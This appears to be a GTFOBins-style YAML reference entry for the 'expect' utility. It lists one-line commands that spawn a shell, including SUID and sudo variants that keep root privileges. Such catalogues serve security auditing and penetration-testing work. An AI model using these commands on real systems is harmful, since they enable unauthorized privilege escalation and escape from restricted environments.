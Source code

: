 ```yaml
---
name: expect
functions:
  shell:
    - code: expect -c 'spawn /bin/sh;interact'
  suid:
    - code: ./expect -c 'spawn /bin/sh -p;interact'
  sudo:
    - code: sudo expect -c 'spawn /bin/sh;interact'
---
```

